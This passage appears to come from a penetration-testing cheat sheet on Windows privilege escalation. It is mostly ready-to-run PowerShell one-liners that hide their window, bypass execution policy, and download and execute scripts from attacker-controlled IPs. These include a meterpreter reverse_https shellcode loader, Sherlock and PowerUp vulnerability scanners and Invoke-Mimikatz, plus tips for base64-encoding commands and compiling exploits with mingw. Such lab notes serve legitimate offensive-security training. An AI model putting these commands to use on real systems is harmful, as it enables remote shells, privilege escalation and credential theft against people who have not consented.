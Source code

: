 Do we want to run Invoke-Shellcode.ps1?
```
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost YourIPAddress -Lport 4444 -Force"
```

### Kernel Exploits 

Here we want to run the Sherlock/Watson and PowerUp scripts to check for low hanging fruit and easy wins. The functions we want are Find-AllVulns and Invoke-AllChecks. You can just use the -encodedcommand flag and not deal with these quotes as well.

https://github.com/rasta-mouse/Sherlock

https://github.com/rasta-mouse/Watson

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

The normal way to run a powershell script using net webclient objects with no modifications.
```
powershell `IEX((new-object net.webclient).downloadstring('http://10.10.14.22:8000/Sherlock.ps1')); Find-AllVulns`
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks"
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```

If we have a webshell or something non interactive try piping it to powershell and pulling from stdin like so. Thanks to Ippsec for showing this method. 
https://www.youtube.com/watch?v=lP-E5vmZNC0
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/Sherlock.ps1'); | powershell -noprofile -
```
Sometimes its easier to encode your PS commands into UTF/base64 like so...
```
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');" | iconv --to-code UTF-16LE | base64 -w 0
```
Then just run it on your windows shell... 
```
powershell -encodedcommand ADFSDGSDGSDGDSG==
```

Otherwise just upload it somewhere and execute these 
```
powershell -nop -ep bypass
Import-Module C:\Users\740i\Desktop\Sherlock.ps1
Find-AllVulns
```
Compiling all these Windows exploits on Linux can really be a pain in the ass 
```
i686-w64-mingw32-gcc exploit.c -o exploit
```
or for 32 bit 
```
i686-w64-mingw32-gcc 40564.c -o 40564 -lws2_32 
```
Precompiled windows exploits they seem safe...
